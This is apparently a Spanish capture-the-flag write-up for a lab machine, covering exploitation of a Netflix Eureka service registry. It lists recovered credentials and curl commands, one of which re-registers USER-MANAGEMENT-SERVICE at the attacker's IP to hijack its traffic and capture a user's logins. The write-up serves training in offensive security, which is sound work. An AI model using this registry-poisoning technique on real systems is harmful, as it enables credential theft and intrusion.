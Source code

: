 Luego de esta enumeración podemos concluir lo siguiente:

- Existe un servicio de `Eureka` ejecutándose por el puerto `8761`, el cual ahora disponemos de credenciales.
- Se ejecuta `cloud-gateway` por el puerto `8080` de forma local, informando los microservicios `USER-MANAGEMENT-SERVICE` y `furni`.
- El servicio `USER-MANAGEMENT-SERVICE` se ejecuta por el puerto `8081` de forma interna.
- El sistema autentica de forma periódica al usuario `miranda.wise` al servicio `USER-MANAGEMENT-SERVICE`.

> Un Eureka Server es un **servidor de registro de servicios** creado por `Netflix`, y ahora parte del ecosistema de `Spring Cloud`, que permite a los microservicios registrarse y descubrirse mutuamente dentro de un sistema distribuido.
{: .notice--info}


## Eureka Server Exploitation - Traffic Hijacking

Con estas nuevas credenciales podremos autenticarnos en el puerto `8761`, donde se ejecuta el servicio `Eureka`

~~~ bash
curl -u EurekaSrvr:0scarPWDisTheB3st http://10.10.11.66:8761/
~~~

La metodología que seguiremos para abusar de este servicio consistirá en sobreescribir el mircro-servicio `USER-MANAGEMENT-SERVICE`, haciendo referencia a nuestra IP, podemos encontrar detalles de explotación y explicación técnica en el siguiente [artículo](https://engineering.backbase.com/2023/05/16/hacking-netflix-eureka)

![eureka-exploitation](https://engineering.backbase.com/2023/05/16/hacking-netflix-eureka/assets/dist/lg/attack-vector2.png)

Comenzaremos registrando el servicio `USER-MANAGEMENT-SERVICE` para que apunte a nuestra IP

~~~ bash
curl -X POST http://EurekaSrvr:0scarPWDisTheB3st@10.10.11.66:8761/eureka/apps/USER-MANAGEMENT-SERVICE  -H 'Content-Type: application/json' -d '{ 
  "instance": {
    "instanceId": "test",
    "hostName": "10.10.14.132",
    "app": "USER-MANAGEMENT-SERVICE",
    "ipAddr": "10.10.14.132",
    "vipAddress": "USER-MANAGEMENT-SERVICE",
    "status": "UP",
    "port": {   
      "$": 8081,
      "@enabled": "true"
    },                 
    "dataCenterInfo": {                                                  
      "@class": "com.netflix.appinfo.InstanceInfo$DefaultDataCenterInfo",
      "name": "MyOwn"
    }
  }
}'
~~~
